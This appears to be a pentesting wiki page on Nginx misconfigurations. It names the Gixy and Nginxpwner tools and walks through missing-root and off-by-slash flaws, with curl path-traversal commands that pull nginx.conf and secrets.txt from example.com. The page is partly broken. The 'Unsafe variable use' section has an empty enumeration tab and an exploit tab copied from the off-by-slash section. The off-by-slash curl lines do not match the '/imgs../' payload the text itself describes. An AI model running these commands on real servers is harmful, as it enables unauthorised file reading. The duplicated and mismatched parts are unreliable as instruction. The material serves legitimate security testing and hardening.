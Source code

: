 # Nginx 

## Theory 

NGINX is open source software for web serving, reverse proxying, caching, load balancing, media streaming, and more. But there is some common **Nginx misconfigurations** that, if left unchecked, leave the web site vulnerable to attack.

## Misconfigurations 

### Tools 

There are several tools available, such as [Gixy](https://github.com/yandex/gixy) and [Nginxpwner](https://github.com/stark0de/nginxpwner), which can automate the process of identifying misconfigurations in Nginx.

{% tabs %}
{% tab title="Gixy" %}
[Gixy](https://github.com/yandex/gixy) is a tool to analyze Nginx configuration. The main goal of Gixy is to prevent security misconfiguration and automate flaw detection. This is a static files analyzer.

```bash
gixy /etc/nginx/nginx.conf
```
{% endtab %}
{% tab title="Nginxpwner" %}
[Nginxpwner](https://github.com/stark0de/nginxpwner) will dynamicly look for common Nginx misconfigurations and vulnerabilities.

```bash
#Target tab in Burp, select host, right click, copy all URLs in this host, copy to a file
cat urllist | unfurl paths | cut -d"/" -f2-3 | sort -u > /tmp/pathlist 
#Or get the list of paths you already discovered in the application in some other way. 
#Note: the paths should not start with /

#Finally, run it
python3 nginxpwner.py https://example.com /tmp/pathlist
```
{% endtab %}
{% endtabs %}

### Missing root location

{% tabs %}
{% tab title="Enumeration" %}
The **root** directive specifies the root folder for Nginx. In the following example, the root folder is `/etc/nginx` which means that we can reach files within that folder.
```
server {
        root /etc/nginx;

        location /hello.txt {
                try_files $uri $uri/ =404;
                proxy_pass http://127.0.0.1:8080/;
        }
}
```
In the above example, the root folder is `/etc/nginx` which means that we can reach files within that folder. The configuration does not have a location for `/ (location / {...})`
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, the root directive will be globally set, meaning that requests to `/` will take you to the local path `/etc/nginx`.  
```bash
#We can get sensitive files as the nginx.conf
curl http://example.com/nginx.conf
```
{% endtab %}
{% endtabs %}


### Off-By-Slash Misconfiguration

{% tabs %}
{% tab title="Enumeration" %}
With the Off-by-slash misconfiguration, it is possible to traverse one step up the path due to a missing slash.  
Inside the Nginx configuration look the "location" statements, if someone looks like:
```
#Missing slash with alias directive
location /imgs { 
    alias /path/images/;
}

#Missing slash with proxy_pass directive
location /api {
    proxy_pass http://apiserver/v1/;
}
```
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an LFI vulnerability because `/imgs../secrets.txt` will be transform to `/path/images/../secrets.txt`

```bash
#We can get sensitive files
curl http://example.com/imgs/../../secrets.txt

curl http://example.com/api/../../secrets.txt
```
{% endtab %}
{% endtabs %}

### Unsafe variable use

{% tabs %}
{% tab title="Enumeration" %}

{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an LFI vulnerability because `/imgs../secrets.txt` will be transform to `/path/images/../secrets.txt`

```bash
#We can get sensitive files
curl http://example.com/imgs/../../secrets.txt

curl http://example.com/api/../../secrets.txt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/" %}
{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx" %}
